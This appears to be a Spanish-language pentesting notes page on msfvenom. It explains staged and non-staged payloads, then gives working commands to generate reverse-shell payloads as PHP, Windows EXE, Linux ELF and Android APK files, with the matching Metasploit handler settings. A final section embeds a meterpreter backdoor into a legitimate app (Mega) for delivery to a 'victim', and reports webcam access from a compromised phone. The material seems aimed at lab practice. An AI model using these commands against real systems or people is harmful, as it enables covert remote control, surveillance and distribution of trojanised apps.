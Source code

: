 Msfvenom es una herramienta de línea de comandos que forma parte del framework de pruebas de penetración Metasploit. Se utiliza para generar y personalizar payloads (cargas útiles) maliciosos que pueden ser utilizados en ataques de pruebas de penetración y en la explotación de vulnerabilidades en sistemas informáticos.

## TIPOS DE PAYLOADS
Hay dos tipos de payloads, los staged y los non-staged:

- **Payload Staged** --> El Payload Staged es un tipo de carga útil que se descompone en dos o más partes. La primera parte consiste en un fragmento de código que se envía al objetivo con el fin de establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece esta conexión, la segunda parte del payload, que es la verdadera carga útil del ataque, se envía. Este enfoque le da a los atacantes la capacidad de evadir medidas de seguridad adicionales, ya que la verdadera carga útil no se envía hasta que se establece una conexión segura.

- **Payload non-staged** --> Es un tipo de carga útil que se envía como una única entidad y no se divide en múltiples partes. En otras palabras, la carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Aunque este enfoque es más simple que el Payload Staged, es más fácilmente detectable por los sistemas de seguridad, ya que todo el código malicioso se envía de una sola vez, lo que puede hacer que sea más fácilmente identificado y bloqueado.

-------------------------------------

## Fichero PHP malicioso con msfvenom
Para generar un archivo de reverse shell en PHP utilizando msfvenom, puedes utilizar el siguiente comando:

```python
msfvenom -p php/reverse_php LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > reverse_shell.php
```

Una vez que hayas generado el archivo de reverse shell en PHP, puedes transferirlo a la máquina objetivo y ejecutarlo en un servidor web para establecer una conexión de reverse shell con la máquina atacante.

## Fichero EXE malicioso con msfvenom

Podemos también generar un payload para entablar una reverse shell en forma de meterpreter en metasploit desde una máquina windows a nuestra máquina atacante, generando el siguiente payload:
```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=443 -f exe -o pwned.exe
```
![[Pasted image 20230817140645.png]]
Una vez generado esto, tenemos que abrir el /multi/handler de metasploit seleccionando como payload el meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230817140542.png]]
Y ahora desde la máquina víctima, ejecutamos el script creado anteriormente:
![[Pasted image 20230817140608.png]]
Y recibimos sesión de meterpreter:
![[Pasted image 20230817140625.png]]
Aunque también podemos crear un payload que no sea de meterpreter, sino para recibir una shell normal, haciéndolo de la misma forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
## Fichero ELF malicioso con msfvenom

Los ficheros elf en linux se pueden asemejar a los exe de windows, por lo que haremos lo mismo de antes pero para linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 -f elf -o pwned.elf
```
![[Pasted image 20230818120343.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20230818120411.png]]
Nos ponemos en la escucha con metasploit usando el payload de meterpreter para linux:
```bash
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230818120441.png]]
Ejecutamos el archivo en la máquina víctima y recibimos la conexión:
![[Pasted image 20230818120513.png]]

-----------------------------------------

[[MAQUINA SECTALKS (Vulnerabilidad arbitrary file upload, php malicioso con msfvenom, y multi-handler de metasploit)]]

# CREAR APK MALICIOSA
Podemos también crear un payload dentro de un apk y establecer una sesión de meterpreter en metasploit, por tanto usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 > virus.apk
```
![[Pasted image 20230913095619.png]]
Y ahora con metasploit estaremos en la escucha con el multi handler, además de establecer el payload correcto:
```bash
set payload android/meterpreter/reverse_tcp
```
![[Pasted image 20230913095744.png]]
Si la ejecutamos desde un dispositivo android habremos recibido una sesión de meterpreter:
![[Pasted image 20230913100126.png]]
Y podemos acceder a la webcam:
![[Pasted image 20230913100232.png]]

# ESCONDER BACKDOOR EN APK LEGÍTIMA
Primero tenemos que instalar apktool en nuestro kali:
![[Pasted image 20230915153411.png]]
Y también nos bajamos la última versión del apktool:
![[Pasted image 20230915153511.png]]
Otorgamos permisos a los 2 archivos:
![[Pasted image 20230915153651.png]]
Movemos los dos archivos al siguiente directorio:
![[Pasted image 20230915154214.png]]
Y dentro del /usr/local/bin tenemos que renombrar el fichero .jar de esta forma:
![[Pasted image 20230915153900.png]]
Y ahora si ejecutamos el apktool debería funcionar bien:
![[Pasted image 20230915154546.png]]
Y ahora instalaremos estos 3 paquetes:
![[Pasted image 20230915160559.png]]
Ahora el siguiente paso será descargar un apk legítima, por ejemplo la de mega:
![[Pasted image 20230915124544.png]]
Y ahora una vez descargado el apk lo pasamos por msfvenom:
```bash
msfvenom -x mega.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.36 LPORT=443 -o mega_virus.apk
```
![[Pasted image 20230915155153.png]]
Lo pasamos al dispositivo android y ahora con metasploit nos ponemos en la escucha:
![[Pasted image 20230915155351.png]]

Nos compartimos el apk con la víctima y con metasploit nos ponemos en la escucha, poniendo este payload:
```bash
set payload android/meterpreter/reverse_tcp
```